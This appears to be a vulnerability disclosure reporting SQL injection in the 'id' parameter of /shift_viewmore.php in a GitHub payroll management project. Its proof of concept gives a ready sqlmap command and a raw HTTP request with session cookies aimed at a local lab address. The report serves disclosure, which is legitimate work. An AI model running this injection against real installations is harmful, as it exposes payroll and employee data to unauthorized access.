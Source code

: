 [description]
 
Online-Payroll-Management-System was discovered to contain a SQL Injection vulnerability via the URI /shift_viewmore.php with parameter name 'id'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Online-Payroll-Management-System,https://github.com/MD-MAFUJUL-HASAN/Online-Payroll-Management-System

 ------------------------------------------

 [Affected Product Code Base]
 
 <=commit a8902bf64575e325f6d6bf93a55f7bd273ec58cd

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="778" alt="图片" src="https://github.com/user-attachments/assets/a56f237b-5389-4d27-971d-264d7fedc6d3">
<img width="698" alt="图片" src="https://github.com/user-attachments/assets/3ef8ad7d-fac1-48e3-8526-957a627237ca">






sqlmap:
```
sqlmap -r a.txt -p id --batch --banner --flush-session

```
a.txt
```
GET /shift_viewmore.php?id=1 HTTP/1.1
Host: 192.168.0.183:11182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.183:11182/shift_view.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: i18next=en; Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImU0ZjJhZWJmLWVkMDEtNGM0OC04YjU4LTI3OTFjMzllMzFmMCJ9.0J-cqM7f9-cNNDe8_Q3CAiWkq4iyNqLDbBUh6mnYfRl1Ygv4HPIp3Ky1cbbpN3_4Zr8lYluJ5-nEunFvF84Xyw; sidebarStatus=0; pro_end=-1; ltd_end=-1; serverType=nginx; order=id%20desc; memSize=32012; SESSIONID=5253906e-713a-40e1-9da8-379c12b5fc68.g9MHRcbVBSSnuxBS2kXozqhXoig; request_token=R2jSjrmCm9VN6xmDbAK0n3uK282rC2acIB330unM9N1GRSTD; sites_path=/www/wwwroot; distribution=ubuntu; force=0; load_type=null; uploadSize=1073741824; rank=a; form_proxy=%5Bobject%20Object%5D; backup_path=/www/backup; PHPSESSID=72uq71htklndamdj2mrmj2f9o7; pnull=1; load_page=1; load_search=undefined; vcodesum=13; BatchPaste=null; _ga=GA1.1.2111016145.1721287966; _gid=GA1.1.1011972672.1721287966; Path=/www/wwwroot/Online-Payroll-Management-System.com; _gat=1; _ga_J1DQF09WZC=GS1.1.1721287966.1.1.1721290927.0.0.0
Connection: keep-alive
```
